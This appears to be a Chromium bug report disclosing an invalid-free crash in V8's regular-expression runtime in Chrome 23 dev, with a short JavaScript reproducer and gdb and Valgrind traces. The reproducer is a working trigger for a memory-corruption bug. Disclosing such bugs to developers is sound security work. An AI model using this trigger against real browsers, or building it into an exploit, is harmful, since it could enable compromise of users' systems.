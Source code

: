 <b>VULNERABILITY DETAILS</b>
The JavaScript code below crashes Chromium 23.0.1262.0 dev and d8 shell (trunk version as in Chrome 23.0.1262.0) with an invalid free in v8::internal::Runtime_RegExpExecMultiple.


<b>VERSION</b>
Chrome Version: 23.0.1262.0 dev
Operating System: Ubuntu 12.04 64 bit


<b>REPRODUCTION CASE</b>
var str = "ABX X";
str = str.replace(/(\w)?X/g, function(match, capture) {});
function test() {
  try {
    test(7, 'right');
  } catch(e) {
    "bar.foo baz......".replace(/(ba.).*?f/g, function() { return "x";});
  }
}
test();


<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash state:

third_party/tcmalloc/chromium/src/tcmalloc.cc:285] Attempt to free invalid pointer 0x55555a1eda81 

Program received signal SIGSEGV, Segmentation fault.
0x0000555555bbfdd0 in ?? ()
(gdb) bt
#0  0x0000555555bbfdd0 in ?? ()
#1  0x0000555555bc771c in ?? ()
[...]
(More stack frames follow...)
(gdb) x /i $pc
=> 0x555555bbfdd0:      movb   $0x21,0x39


Valgrind with d8:

==8067== Invalid free() / delete / delete[]
==8067==    at 0x4C2563E: operator delete[](void*) (vg_replace_malloc.c:409)
==8067==    by 0x5EBA56: v8::internal::Runtime_RegExpExecMultiple(v8::internal::Arguments, v8::internal::Isolate*) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==8067==    by 0xB31A8806361: ???
==8067==    by 0xB31A8841307: ???
[...]
==8067==  Address 0x7fef09d58 is on thread 1's stack
